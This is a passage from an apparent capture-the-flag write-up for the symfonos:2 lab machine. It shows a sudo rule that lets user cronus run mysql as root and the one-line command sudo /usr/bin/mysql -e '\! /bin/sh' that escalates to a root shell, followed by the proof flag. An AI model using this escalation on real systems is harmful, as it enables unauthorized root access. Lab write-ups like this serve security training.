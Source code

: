 	User cronus may run the following commands on symfonos2:
		(root) NOPASSWD: /usr/bin/mysql
	cronus@symfonos2:/opt/librenms/html$ 
	```

	- [mysql has a GTFO Bin entry](https://gtfobins.github.io/gtfobins/mysql/#sudo)
2. Exploit

	```
	sudo /usr/bin/mysql -e '\! /bin/sh'
	```

3. Root shell obtained

	```
	cronus@symfonos2:/opt/librenms/html$ sudo /usr/bin/mysql -e '\! /bin/sh'
	# whoami
	root
	# cd /root
	# ls
	proof.txt
	# cat proof.txt

		Congrats on rooting symfonos:2!

			   ,   ,
			 ,-`{-`/
		  ,-~ , \ {-~~-,
		,~  ,   ,`,-~~-,`,
	  ,`   ,   { {      } }                                             }/
	 ;     ,--/`\ \    / /                                     }/      /,/
	;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
	; /   `       } } `, `-`-.___                            / `,  ,/  `,/
	 \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
	  `        { {                                     __  /  ,`/   ,`,;
			/   \ \                                 _,`, `{  `,{   `,`;`
		   {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
		   \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
			`-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
					   / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
					/~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
		   /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
		  /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
		 / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \
		/ , ~ . ~ \ , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
	  /` ` . ~ . ` `\ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
	/` . `  ,  . ~ , \  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

